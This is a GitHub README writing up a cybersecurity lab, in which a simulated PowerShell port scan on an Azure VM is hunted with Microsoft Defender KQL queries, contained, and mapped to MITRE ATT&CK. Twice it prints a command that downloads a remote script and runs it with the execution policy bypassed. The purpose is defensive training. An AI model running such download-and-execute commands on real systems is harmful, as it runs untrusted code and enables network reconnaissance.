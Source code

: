 # 🛡️ Threat Hunting Project: Entropy Gorilla Port Scan

## 📁 Overview
This project documents the investigation, analysis, and response to an internal network scanning incident using Microsoft Defender for Endpoint (MDE), Azure, and PowerShell. The port scan was traced to a script executed on a Windows VM named `labuser`, using the SYSTEM account.

---

## 💣 Initial Setup: Simulated Attack
Before starting the hunt, a PowerShell-based port scanning script was intentionally executed on a VM to simulate malicious behavior and generate logs for threat hunting.

Script executed:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';
cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```

![Ran malicious code inside VM](https://github.com/user-attachments/assets/5b435f36-df4b-456d-8404-925af98891c6)

What the Malicious Script Does:

- The PowerShell script portscan.ps1 simulates an internal reconnaissance attack:

- Scans the IP range 10.0.0.4 to 10.0.0.10.

- Uses Test-NetConnection to ping each host and test for open TCP ports.

- Targets a list of common ports (e.g., 22, 80, 443, 3389).

- Logs results (open/closed) to C:\ProgramData\entropygorilla.log.

- Masquerades as a legitimate Windows process by naming itself RuntimeBroker.exe.
---

## 🚩 Scenario Summary
- A VM showed suspicious `ConnectionFailed` network activity.
- PowerShell script `portscan.ps1` was downloaded and executed.
- The scan targeted the internal subnet (10.0.0.0/16), using common ports.
- The script mimicked a system process (`RuntimeBroker.exe`).
- Activity mapped to multiple MITRE ATT&CK TTPs.

---

## 🧪 Steps Performed

### 1. Preparation
- Hypothesis: An internal asset is scanning local network hosts.
- Reason: High failed connection volume and unrestricted PowerShell use.

### 2. Data Collection
Queried the following tables in MDE Advanced Hunting:
- `DeviceNetworkEvents`
| where DeviceName == "labuser"
| where ActionType == "ConnectionFailed"
| summarize count() by DeviceName, ActionType, LocalIP
| order by count_

![Screenshot 2025-06-15 231048](https://github.com/user-attachments/assets/7e487c1b-0ee1-4e7d-abc6-8632f51eaff2)

### 3. Data Analysis
Confirmed host `10.0.0.95` showed excessive failed connections.
```kql
let IPInQuestion = "10.0.0.95";
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| where LocalIP == IPInQuestion
| summarize FailedConnectionsAttempts = count() by DeviceName, ActionType, LocalIP
| order by FailedConnectionsAttempts desc
```

📸 Screenshot: `Screenshot 2025-06-15 232635.png` (Network analysis showing failed connections)

### 4. Investigation
Used `DeviceProcessEvents` to locate scripts run during the attack:
```kql
let VMName = "labuser";
DeviceProcessEvents
| where DeviceName == VMName
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine, ActionType
```

Identified the script:
```
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```

📸 Screenshots:
- `Screenshot 2025-06-15 234201.png` (Process creation detection)
- `Logged in to suspicious VM to check the file and the malicious script.PNG`

### 5. Response
Steps taken:
- ✅ Isolated the VM (`labuser`) using Microsoft Defender.
- ✅ Removed malicious file: `C:\programdata\portscan.ps1`
- ✅ Rebuilt the VM from Azure Portal.
- ✅ Enabled PowerShell Script Block & Module Logging.

📸 Screenshot: `Screenshot 2025-06-15 234540.png` (Device isolation in MDE)

### 6. Documentation
Script downloaded via:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';
cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```

📎 All screenshots are archived per investigation phase.

### 7. Improvement
- 🔐 Hardened PowerShell logging.
- 📊 Created detection rule for excessive `ConnectionFailed` logs.
- 🧼 Reviewed scheduled tasks and services on critical assets.

---

## 🧬 MITRE ATT&CK TTP Mapping
| Tactic              | Technique                            | ID         |
|---------------------|----------------------------------------|------------|
| Discovery           | Network Service Scanning              | T1046      |
| Discovery           | Remote System Discovery               | T1018      |
| Execution           | PowerShell                            | T1059.001  |
| Defense Evasion     | Masquerade Task or Service            | T1036.004  |
| Execution           | User Execution: Malicious File        | T1204.002  |
| Persistence*        | Create/Modify System Process          | T1543.003  |

---

## 📌 Recommendations
- Configure alerts for anomalous PowerShell execution.
- Lock down PowerShell usage via GPO or AppLocker.
- Monitor for file names mimicking system processes.
- Tune SIEM rules to detect local lateral movement patterns.

---

## 🧰 Tools Used
- Microsoft Defender for Endpoint (Advanced Hunting)
- Azure Portal (VM Deployment & Management)
- Windows PowerShell ISE
- PowerShell Logging Registry Policies

---

Project maintained by: Felipe Restrepo
Date: June 16, 2025
